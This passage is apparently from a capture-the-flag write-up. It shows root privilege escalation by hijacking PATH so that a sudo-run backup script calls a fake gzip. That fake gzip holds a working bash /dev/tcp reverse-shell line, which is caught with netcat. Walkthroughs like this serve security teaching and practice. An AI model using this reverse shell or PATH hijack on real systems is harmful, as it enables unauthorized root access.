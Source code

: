 m4lwhere can execute a script with sudo. The script conctents are found the the /opt/scripts/ directory.

{{< highlight bash >}}
File: /opt/scripts/access_backup.sh
#!/bin/bash

# We always make sure to store logs, we take security SERIOUSLY here

# I know I shouldnt run this as root but I cant figure it out programmatically on my account
# This is configured to run with cron, added to sudo so I can run as needed - we'll fix it later when there's time

gzip -c /var/log/apache2/access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_access.gz
gzip -c /var/www/file_access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_file_access.gz
{{< /highlight >}}

This script is calling running the gzip command, however as this script is sudoable, the reference to gzip is a reference from the path, this may allow us to trick the script into running our own gzip command by exporting a new path of our choice. This is our vector for privilege escalation.

The current path appears as:

{{< highlight bash >}}
echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
{{< /highlight >}}

To create our own gzip command, we first create a directory in the /tmp/ directory where we will put our script.
We can then export this directory as our new path.

{{< highlight bash >}}
mkdir /tmp/newpath
export PATH=/tmp/newpath:$PATH
{{< /highlight >}}

Changing into our new directory, we can write a our malicious script to spawn a reverse shell as the root user.

{{< highlight bash >}}
File: gzip
#!/bin/bash
bash -i >& /dev/tcp/0.0.0.0/9001 0>&1
{{< /highlight >}}

Setting up a listener on netcat, we can catch the reverse shell after running the script.

{{< highlight bash >}}
chmod +x gzip
sudo /opt/scripts/access_backup.sh
{{< /highlight >}}

